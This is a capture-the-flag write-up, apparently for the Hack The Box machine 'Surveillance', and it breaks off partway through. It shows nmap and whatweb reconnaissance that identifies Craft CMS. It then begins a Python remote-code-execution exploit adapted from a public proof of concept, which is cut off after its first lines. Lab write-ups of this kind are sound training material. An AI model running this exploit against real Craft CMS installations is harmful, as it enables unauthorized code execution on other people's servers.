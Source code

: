we start the machinhe with a classica nmap scan:
```bash
nmap -sC -sV -p- --min-rate=3600 10.10.11.245
```
output:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title:  Surveillance 
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the scan we can see that it's a typical linux machine with just a webserver and ssh.<br>

# Port 80

Since ssh is 99,9% of the time not bruteforcable or not vulnerable we can start by taking a look at webserver on port 80.<br>
if we visit the url on a browser we can see a redirect on the host `surveillance.htb` so i added to /etc/hosts file:
```bash
echo '10.10.11.245	surveillance.htb' >> /etc/hosts
```
Now we can visit the webserver and see this page:
	
![port 80](·/pic/80.png)
	
The website is a presentation site for a surveillance-cam enterprise.<br>
The website is pretty static so i started enumerating it by running:
```bash
whatweb surveillance.htb
```
output:
```bash
http://surveillance.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[demo@surveillance.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.245], JQuery[3.4.1], Script[text/javascript], Title[Surveillance], X-Powered-By[Craft CMS], X-UA-Compatible[IE=edge], nginx[1.18.0]
```
from the output of what web we can see that is a known CMS named `Craft CMS` running on a nginx reverse proxy.<br>
So the first thing i did is searching for known exploits on this cms.<br>

# www-data

Evnetually i found this [POC](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226) for an RCE, by looking a bit at the poc code we can see that it is using proxies to forward the requests; so i removed then resulting in this:
```python
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
```